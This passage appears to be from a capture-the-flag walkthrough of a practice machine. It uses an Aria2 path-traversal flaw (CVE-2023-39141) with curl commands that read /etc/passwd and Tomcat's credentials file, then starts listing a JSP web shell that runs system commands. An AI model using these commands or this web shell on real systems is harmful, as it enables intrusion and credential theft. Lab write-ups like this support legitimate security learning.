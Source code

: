 We can find the version of Aria2 by hovering over the "Settings" menu and click the "Server Info" button:

![125bb748d2bf6dd40c8e4da365882927.png](/resources/22577709f0a44c259cd46f0c3c7548d4.png)

Searching for "Aria2 exploit" leads us to CVE-2023-39141 on [NIST](https://nvd.nist.gov/vuln/detail/CVE-2023-39141) and under the references, we will find a [GitHub](https://gist.github.com/JafarAkhondali/528fe6c548b78f454911fb866b23f66e) page by JafarAkhondali which explains the path traversal vulnerability a bit more.

To exploit the path traversal vulnerability, we just need to make a `curl` request with the `--path-as-is` option then use `../` characters each time we want to move up a directory and the file we want to read. If we want to read the `passwd` file, we need to add enough `../` characters to read the root directory then `etc/passwd`:

```plaintext
curl --path-as-is http://back.thm:8888/../../../../../../../../../../../../../../../../../../../../etc/passwd
```

![40f8ce2b2f860d9e5f935f6c85253c04.png](/resources/3450853b5003497bb034857fa53d4287.png)

# Initial Foothold

## \[+] Port 8080 - HTTP - Apache Tomcat

### \[-] back.thm:8080

Now that we have a path traversal vulnerability on one of the server's applications, we can use it to read configuration files of other applications/services to our advantage.

On port 8080, we will find the default Apache Tomcat page:

![79cc89147fd1566e7a9f483dc5d65a7d.png](/resources/455b0a3bab494403a739a46c9c822056.png)

From the `passwd` file, we can find the `tomcat` user which has a home directory of `/opt/tomcat/`. Tomcat stores username and passwords in a plaintext file named `tomcat-users.xml` in the `conf` directory.

Let's make a `curl` request to read this file:

```plaintext
curl --path-as-is http://back.thm:8888/../../../../../../../../../../../../../../../../../../../../opt/tomcat/conf/tomcat-users.xml
```

![e30aa96f1950e3227602355278203557.png](/resources/c897194b8c04498bbe317cf7580c1437.png)

Using these credentials, we can upload a web shell to the server. First, we have to create a file named `index.jsp` with the following Java code:

```java
<FORM METHOD=GET ACTION='index.jsp'>
<INPUT name='cmd' type=text>
<INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
<%
   String cmd = request.getParameter("cmd");
   String output = "";
   if(cmd != null) {
      String s = null;
      try {
         Process p = Runtime.getRuntime().exec(cmd,null,null);
         BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
```